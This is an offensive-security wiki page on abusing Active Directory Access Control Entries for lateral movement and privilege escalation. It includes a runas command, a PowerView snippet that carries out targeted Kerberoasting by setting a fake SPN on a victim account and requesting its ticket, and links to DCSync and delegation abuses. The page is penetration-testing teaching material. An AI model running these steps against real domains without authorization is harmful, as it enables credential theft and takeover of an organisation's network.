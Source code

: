 # Access Control Entries \(ACEs\)

## Theory

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry \(ACE\). Access Control Entries describe the allowed and denied permissions for a principal in Active Directory against a securable object \(user, group, computer, container, organization unit \(OU\), GPO and so on\)

DACLs \(Active Directory Discretionary Access Control Lists\) are lists made of ACEs \(Access Control Entries\).

When misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain.

## Practice

### Requirements

The attacker needs to be in control of the object the ACE is set on to abuse it and possibly gain control over what this ACE applies to. The following abuses can only be carried out when running commands as the user the ACE is set on.

{% tabs %}
{% tab title="RunAs" %}
RunAs is a standard command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.

```bash
runas /netonly /user:$DOMAIN\$USER "powershell.exe"
```

Since the password cannot be supplied as an argument, the session must be interactive.
{% endtab %}

{% tab title="PowerView" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. This can be useful when trying to this from a Windows system that isn't enrolled in the AD domain.

Here is an example for [targeted Kerberoasting](targeted-kerberoasting.md).

```bash
$SecPassword = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $SecPassword)
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Windows or UNIX ?**

All abuses below can be carried out on a Windows system that doesn't even have to be joined to the domain. On UNIX-like systems, a few of the following abuses can be carried out with tools like [aclpwn](https://github.com/fox-it/aclpwn.py) and [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py). I personally find it way easier to abuse ACEs from a Windows machine.
{% endhint %}

### Exploitation paths

In order to navigate the notes, testers can use the mindmap below.

![](../../../.gitbook/assets/abusing-aces.png)

All of the aforementioned attacks \(red blocks\) are detailed in the child notes, except:

* **Kerberos RBCD**: see [ADDS &gt; Movement &gt; Kerberos &gt; Kerberos Delegations &gt; RBCD](../abusing-kerberos/delegations.md#resource-based-constrained-delegations-rbcd)
* **GPO abuses**: see [ADDS &gt; Movement &gt; GPOs](../abusing-gpos.md)
* **DCSync** : see [ADDS &gt; Movement &gt; Credential &gt; Dumping &gt; DCSync](../credentials/dumping/dcsync.md)

## Resources

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces\#genericall-on-user" caption="" %}

{% embed url="https://wald0.com/?p=112" caption="" %}

{% embed url="http://www.selfadsi.org/deep-inside/ad-security-descriptors.htm" %}

{% embed url="https://adsecurity.org/?p=3658" %}





